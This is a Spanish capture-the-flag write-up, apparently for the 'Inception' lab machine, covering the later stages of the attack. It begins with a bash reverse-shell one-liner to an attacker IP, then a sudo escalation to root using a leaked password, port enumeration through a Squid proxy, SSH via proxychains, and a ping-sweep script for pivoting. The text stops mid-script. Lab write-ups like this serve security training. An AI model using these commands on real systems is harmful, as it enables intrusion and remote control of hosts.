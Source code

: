 ```bash -c 'bash -i >%26 /dev/tcp/10.10.14.5/443 0>%261'```
cobb@Inception:/var/www/html/wordpress_4.8.3$ sudo -l
[sudo] password for cobb:
~$: VwPddNh7xMZyDQoByQL4
User cobb may run the following commands on Inception:
    (ALL : ALL) ALL
~$: sudo su
root@Inception:/var/www/html/webdav_test_inception# 
~$: whoami
whoami
root
~$: cat root.txt
You're waiting for a train. A train that will take you far away. Wake up to find root.txt.
```
Como estamos como root pero no hay flag, puede que estemos en un contenedor
```console
~$: hostname -I
192.168.0.10 
```
--------------------------------------------

### PARTE 4. Squid Proxy

El proxy se configura de tal manera, retocando el /etc/proxychains.conf con la linea: ```http 10.10.10.67 3128``` Y comentando la *socks4* de antes para que no 
entre en conflicto. Con el squid proxy se pueden hacer ciertas cosas como enumerar puertos:

```console
└─$ wfuzz -c --hc=404,503 -t 200 -z range,1-65535 -p 10.10.10.67:3128:HTTP http://127.0.0.1:FUZZ
000000022:   200        2 L      4 W        60 Ch       "22"                                                 
000000080:   200        1051 L   169 W      2877 Ch     "80"                                                 
000003128:   400        151 L    416 W      3521 Ch     "3128"
```

Al puerto 22 solo se puede acceder por el proxy.

Si hay que hacer pivoting, hay que detectar maquinas y demas, con esta shell limitada, el subir scripts se  hace impracticable. Asi que como tenemos la contraseña
del Cobb este se usa para ssh.
```console
└─$ sudo proxychains sshpass -p 'VwPddNh7xMZyDQoByQL4' ssh cobb@127.0.0.1  # No es el localhost sino el proxy.
```
--------------------------------------------

### PARTE 4. Pivoting, camino a root

MIgramos a root de la misma manera que antes y para el pivoting tenemos que descubrir tanto la otra maquina como sus puertos:
```bash
#!/bin/bash
for host in $(seq 1 254); do
    timeout 1 bash -c "ping -c 1 192.168.0.$host > /dev/null 2>&1" && echo "Host: 192.168.0.$host" &
done; wait
```
```console
root@Inception:/tmp# ./host.sh
Host: 192.168.0.10
Host: 192.168.0.1   #  La otra maquina :)
```
El de los puertos quedo asi (el mismo que uso para los escaneos iniciales en todas las maquinas):
```bash
#!/bin/bash

```